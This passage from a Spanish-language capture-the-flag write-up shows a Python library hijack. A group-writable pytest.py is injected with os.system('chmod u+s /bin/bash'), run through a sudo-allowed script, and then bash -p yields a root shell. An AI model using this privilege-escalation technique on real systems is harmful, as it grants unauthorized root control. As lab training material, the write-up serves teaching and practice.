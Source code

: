 Ahora sabiendo que podemos ejecutar un script en la ruta **/opt** que al ejecutarse importa la libreria **os** y ejecuta el codigo, Nos aprovechamos de esto para que sea ejecutada nuestra libreria maliciosa, ya que python en su **PATH** primer busca en nuestro directorio actual de trabajo:
```bash
sudo -u root /usr/bin/python3 /opt/script.py
```

No logramos que se modifiquen los permisos, pero podemos revisar si alguna de estas librerias tiene permisos de escritura para cargarle una instruccion maliciosa
```bash
find / -type f -iname "os.py" -ls 2>/dev/null
  7090909     40 -rw-r--r--   1 root     root        39786 Nov  6  2024 /usr/lib/python3.12/os.py
```

Tenemos esta libreria, que en grupo nos pertenece asi que nos podemos aprovechar de esto:
```bash
find / -type f -iname "pytest.py" -ls 2>/dev/null
  7090927      4 -rwxrwxr-x   1 root     admin           1 Jan 10  2025 /usr/lib/python3.12/pytest.py
```

Ahora podemos color instrucciones maliciosas:
```bash
nano pytest.py 

import os
os.system("chmod u+s /bin/bash")
```

Ahora volvemos a intentar explotar el privilegio:
```bash
sudo -u root /usr/bin/python3 /opt/script.py
```

hemos logrado de manera exitosa los permisos **SUID** en el bianrio **bash**
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Ahora explotamos el privilegio
```bash
# Comando para escalar al usuario: ( root )
admin@2ecb8edce2fe:/usr/lib/python3.12$ bash -p
```

---

## Evidencia de Compromiso
Flags de root:
```bash
ls -la /root
-rw-r--r--  1 root root   33 Jan 10  2025 root.txt
```

```bash
# Captura de pantalla o output final
bash-5.2# whoami
root
```